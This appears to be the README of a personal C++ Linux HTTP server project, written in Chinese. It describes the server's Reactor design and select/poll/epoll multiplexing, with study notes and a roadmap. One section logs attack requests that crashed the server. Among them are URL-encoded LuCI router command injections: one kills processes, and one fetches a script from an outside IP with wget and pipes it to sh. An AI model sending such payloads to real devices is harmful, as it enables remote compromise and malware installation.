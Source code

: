 # MyWeb

## 1、开发进度

本项目开发了一个基于Linux平台的轻量级HTTP服务器
* 采用了Reactor高并发模型
* 支持Select、Poll、Epoll三种IO复用方式
* 服务器通过状态机解析HTTP请求报文
* 使用自动增长的缓冲区来提升性能稳定性
* 通过WebBench对服务器进行了性能和压力测试，确保了其稳定性和可靠性。

计划：
* 引入MySQL，实现一个注册登录界面
* 处理POST请求
* 定时器
* 日志系统
* 实现Proactor模型
* 消息队列
* 分布式

奇怪的get请求，接收到以后，服务器就会挂，慢慢解决
* GET /.env HTTP/1.0
* GET /portal/redlion HTTP/1.0
* GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=id%3E%60for+pid+in+%2Fproc%2F%5B0-9%5D%2A%2F%3B+do+pid%3D%24%7Bpid%25%2F%7D%3B+pid%3D%24%7Bpid%23%23%2A%2F%7D%3B+exe_path%3D%24%28ls+-l+%2Fproc%2F%24pid%2Fexe+2%3E%2Fdev%2Fnull+%7C+awk+%27%7Bprint+%24NF%7D%27%29%3B+if+%5B%5B+%24exe_path+%3D%3D+%2A%2F+%5D%5D%3B+then+kill+-9+%24pid%3B+fi%3B+done%3B%60 HTTP/1.0
* GET http://www.ys168.com/?0.301155930654163458905783120 HTTP/1.1
* GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60wget+-O-+http%3A%2F%2F154.216.17.31%2Ft%7Csh%3B%60) HTTP/1.0
* HEAD / HTTP/1.0


## 2、理论基础

### 三种 IO多路复用技术

* select
  * 线性表存储文件描述符
  * 文件描述符有上限，一般是1024，可以修改源码，重新编译内核，但不建议
  * 将文件描述符集合拷贝到内核态，由内核遍历线性表，检查事件，再把集合拷贝回用户态，用户态遍历找到就绪的Socket
* poll
  * 链表存储文件描述符
  * 解决了 select 文件描述符集合上限小的问题
  * 两次拷贝和两次遍历的问题没有解决
* epoll
  * 红黑树直接在内核监控文件描述符，节约用户态到内核态的拷贝。但是 epoll_wait() 仍然需要从内核态拷贝到用户态
  * 同时在内核维护一个链表，当有事件就绪时，通过回调函数，将就绪的文件描述符加入链表，节约遍历的消耗
  * ET - 边缘触发 - 文件描述符就绪后，仅通知一次
  * LT - 水平触发 - 文件描述符就绪后，只要没有读完数据，就一直通知
  * epolloneshot，一个线程开始处理一个文件描述符后，该 fd 再次有数据可读，为避免另一个线程过来处理此 fd，可以通过 epoll_ctl 对该 fd 注册 epolloneshot 事件，当前线程处理完后，充值 epolloneshot 即可

### 同步/异步，阻塞/非阻塞
* 同步
  * 指程序完全按照代码序列的顺序执行
* 异步
  * 指程序的执行需要由系统事件驱动
* 半同步半异步模式 (Reactor)
  * 同步线程用于处理客户逻辑
  * 异步线程用于处理I/O事件
  * 异步线程监听到客户请求后，就将其封装成请求对象并插入请求队列中
  * 请求队列将通知某个工作在同步模式的工作线程来读取并处理该请求对象
* 半同步半反应堆模式 (Proactor)
  * 主线程充当异步线程，负责监听所有 socket 的读写事件
  * 若有新的连接到来，主线程接收，并往 epoll 内核事件表中注册该事件
  * 若有读写事件发生，主线程从 socket 上接收数据，并将其封装成请求对象，插入请求队列当中
  * 所有工作线程睡眠在请求队列上，竞争处理请求队列上的任务

### HTTP 报文格式
